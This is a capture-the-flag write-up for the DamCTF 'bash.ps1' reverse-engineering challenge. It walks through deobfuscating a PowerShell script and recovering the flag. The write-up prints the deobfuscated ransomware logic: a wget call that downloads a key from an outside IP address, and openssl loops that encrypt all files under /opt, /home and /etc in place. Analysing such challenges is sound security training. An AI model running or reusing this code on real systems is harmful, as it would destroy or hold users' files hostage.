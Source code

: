 # rev/bash.ps1

by Brandon

127 solves / 422 points

> ⚠️ WARNING: do not run this! this will actually mess up your system!
> 
> [bash.ps1](bash.ps1)
> 
> [enc](enc)

## Files
- [bash.ps1](bash.ps1): the obfuscated PowerShell script
- [enc](enc): the encrypted flag file

**Solvers**
- [alphabet.py](alphabet.py): a Python script to solve the alphabet used in obfuscation
- [bash-deob1.ps1](bash-deob1.ps1): first round of deobfuscation by variable renaming
- [bash-deob2.ps1](bash-deob2.ps1): fully deobfuscated script
- [key](key): the key file downloaded from `35.87.165.65:31337/key`

## Writeup

`bash.ps1` is an obfuscated PowerShell script that, when run, acts as a ransomware by encrypting many critical files on the system.

The letters of the main commands of interest are defined in a global string (called `$GLOBAL:ALPHABET` below) constructed from system-specific information of the victim's machine:

```powershell
function fun2 {
    $file_contents = (/bin/cat /etc/*release*).split('\n')
    $alphabet = (
        $file_contents[0] `
            += $file_contents[1].split('=')[0] `
            += $file_contents[2] `
            += $file_contents[3].split('=')[0] `
            += $file_contents[4].split('=')[0] `
            += $file_contents[5] `
            += $file_contents[6].split('=')[0] `
            += $file_contents[7].split('=')[0] `
            += $file_contents[8] `
            += $file_contents[9] `
            += $file_contents[10] `
            += $file_contents[11] `
            += $file_contents[12] `
            += $file_contents[13] `
            += $file_contents[14] `
            += $file_contents[15] `
            += $file_contents[16]
    ).Tochararray() + 0..9

    $alphabet = ( -join ($alphabet | sort-object | get-unique))
    $GLOBAL:ALPHABET = $alphabet
}
```

Note that the letters in `$GLOBAL:ALPHABET` are sorted based on the Powershell ordering and deduplicated.

Commands are then elaborately executed as
```powershell
Invoke-Expression (
            "" + $GLOBAL:ALPHABET[48] ` # o
               + $GLOBAL:ALPHABET[49] ` # p
               + $GLOBAL:ALPHABET[41] ` # e
               + $GLOBAL:ALPHABET[47] ` # n
               + # ...
)
```

---
The revelation that the script was encrypting everything actually came from DeepSeek, which recognized the similar call structure to `openssl` commands. 
Slowly, by comparing common `openssl` invocations and the sorted nature of `$GLOBAL:ALPHABET`, I arrived at a subset of `$GLOBAL:ALPHABET` I was confident with. The remaining letters were then deciphered using `z3`.

The final alphabet is approximately
```
012345678 !-./:@ABCDEFGHIJKLMNOPQRSTUabcdefgilmnopqstuvwy
```

yielding the deobfuscated script:
```powershell
function fun3 {
    $KEY_URL = "35.87.165.65:31337/key"
    $KEY_FILE = "A" # filename
    /bin/wget $KEY_URL -q -O $KEY_FILE
}

function fun4 {
    foreach ($I in (find /opt/ -type f)) {
        openssl enc -aes-256-cbc -pass file:key -in  $I  -out  $I
    } 

    foreach ($I in (find /home/ -type f)) {
        openssl enc -aes-256-cbc -pass file:key -in  $I  -out  $I
    } 

    foreach ($I in (find /etc/ -type f)) {
        openssl enc -aes-256-cbc -pass file:key -in  $I  -out  $I
    } 

    foreach ($I in (find /vaq/ -type f)) {
        openssl enc -aes-256-cbc -pass file:key -in  $I  -out  $I 
    }
}
```

Visiting `35.87.165.65:31337/key` in the browser resulted in this text:
```
I understand that, without my agreement, Alpine F1 have put out a press release late this afternoon that I am driving for them next year. This is wrong and I have not signed a contract with Alpine for 2023. I will not be driving for Alpine next year.
```

Using that text as a key file, `enc` can finally be decrypted. However, I had problems with Windows corrupting the `enc` and `key` files in some way and had to use WSL to download and decrypt the files.

```bash
$ curl -O 35.87.165.65:31337/key
$ curl -o enc https://damctf-2025-assets.s3.us-west-2.amazonaws.com/assets/rev/bash-ps1/enc
$ openssl enc -d -aes-256-cbc -in enc -out dec -pass file:key
```

The resulting `dec` file:
```bash
$ cat dec
dam{unattended_arch_boxes_will_be_given_powershell}
```
